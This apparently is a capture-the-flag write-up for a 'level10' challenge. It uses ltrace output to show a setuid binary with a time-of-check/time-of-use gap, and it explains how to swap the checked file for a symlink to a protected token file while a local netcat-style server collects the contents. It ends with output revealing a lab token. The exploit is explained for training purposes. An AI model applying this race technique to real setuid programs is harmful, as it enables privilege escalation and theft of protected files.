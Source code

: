 # level10 solution
Given setuid binary and token file with no read permissions for our user. We can run this binary with ltrace to get the idea of wht it's doing:

    ltrace ./level10 /tmp/some_file 127.0.0.1
    __libc_start_main(0x80486d4, 3, 0xbffff7b4, 0x8048970, 0x80489e0 <unfinished ...>
    access("/tmp/some_file", 4)                      = 0
    printf("Connecting to %s:6969 .. ", "127.0.0.1") = 32
    fflush(0xb7fd1a20Connecting to 127.0.0.1:6969 .. )                               = 0
    socket(2, 1, 0)                                  = 3
    inet_addr("127.0.0.1")                           = 0x0100007f
    htons(6969, 1, 0, 0, 0)                          = 14619
    connect(3, 0xbffff6fc, 16, 0, 0)                 = 0
    write(3, ".*( )*.\n", 8.*( )*.
    )                         = 8
    printf("Connected!\nSending file .. "Connected!
    )           = 27
    fflush(0xb7fd1a20Sending file .. )                               = 0
    open("/tmp/some_file", 0, 010)                   = 4
    read(4, "", 4096)                                = 0
    write(3, "", 0)                                  = 0
    puts("wrote file!"wrote file!
    )                              = 12
    +++ exited (status 12) +++
    [1]+  Done                    nc -l 127.0.0.1 6969

To run this program we need to start new server with netcat and create some file which we have access to. Setuid binary accepts file and ip address as arguments, connects to provided address and sends provided file via tcp stream. This program first checks if we have access to the provided file, then it connects to the server and sends initial message, and only after that it will open provided file and send file content to the server. In this gap between access check and file open we can replace original file with link to the token file. So we have to code server application which accepts one client and immediately removes provided to the setuid binary file with link to the roken file, then it should read 2 messages and display second one.

    ./level10 /tmp/level10/token 127.0.0.1
    Connecting to 127.0.0.1:6969 .. Initial message recieved: .*( )*.
    Connected!
    Sending file .. Token recieved: woupa2yuojeeaaed06riuj63c
    wrote file!
    [1]+  Done                    ./server  (wd: /tmp/level10)
    (wd now: ~)
